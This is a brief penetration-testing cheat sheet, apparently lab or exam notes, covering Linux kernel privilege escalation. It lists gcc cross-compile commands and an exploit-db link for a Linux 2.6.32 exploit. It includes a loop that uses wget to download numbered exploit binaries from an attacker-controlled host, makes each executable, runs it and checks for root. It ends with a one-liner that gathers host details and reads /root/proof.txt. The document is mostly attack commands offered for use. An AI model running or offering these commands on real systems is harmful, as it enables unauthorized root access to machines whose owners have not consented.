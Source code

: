 #### Cross compiling exploits

```
gcc -m32 -o output32 hello.c #(32 bit)
gcc -m64 -o output hello.c # (64 bit)
```

#### Linux 2.6.32

```
https://www.exploit-db.com/exploits/15285/
```

#### Elevation in 2.6.x:

```
for a in 9352 9513 33321 15774 15150 15944 9543 33322 9545 25288 40838 40616 40611 ; do wget http://yourIP:8000/$a; chmod +x $a; ./$a; id; done
```

### Get proof

```
echo " ";echo "uname -a:";uname -a;echo " ";echo "hostname:";hostname;echo " ";echo "id";id;echo " ";echo "ifconfig:";/sbin/ifconfig -a;echo " ";echo "proof:";cat /root/proof.txt 2>/dev/null; cat /Desktop/proof.txt 2>/dev/null;echo " "
```
